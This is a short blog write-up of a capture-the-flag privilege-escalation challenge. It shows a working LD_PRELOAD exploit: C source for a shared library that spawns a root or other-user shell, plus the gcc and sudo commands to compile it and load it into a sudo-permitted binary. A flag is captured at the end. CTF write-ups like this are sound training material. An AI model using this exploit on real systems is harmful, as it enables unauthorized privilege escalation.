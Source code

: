 ```yaml
---
title: "Writeup Cyber Threat Force : PrivEsc"
date: 2021-07-08T04:10:09+01:00
draft: false
tags: ["blog", "security", "ctf", "cyber-threat-force", "pwn"]
type: "posts"
showDate: true
---
```


For this challenge, we were given SSH access to a machine, as the user `ctf`. After running `sudo -l`, we quickly find that we can run the `/opt/Ivazov` binary as `ctf_cracked`. The user in question has a `flag.txt` file in their home, which only they can read.

We also notice `env_keep += LD_PRELOAD`. From there, we can try an [LD_PRELOAD exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation#ld_preload). The steps taken here are copied from the guide was was just linked.

We save this code in `/tmp/pe.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

We compile and run it:
```bash
$ cd /tmp
$ # write the code to pe.c
$ gcc -fPIC -shared -o pe.so pe.c -nostartfiles
$ sudo -u ctf_cracked LD_PRELOAD=pe.so /opt/Ivazov
$ # shell as ctf_cracked
```

And we can now cat `/home/ctf_cracked/flag.txt`: `CYBERTF{LD_PRELOAD_2_Bypass_Ivazov}`.

You can [read other writeups](/blog/cyber-threat-force-ctf/).
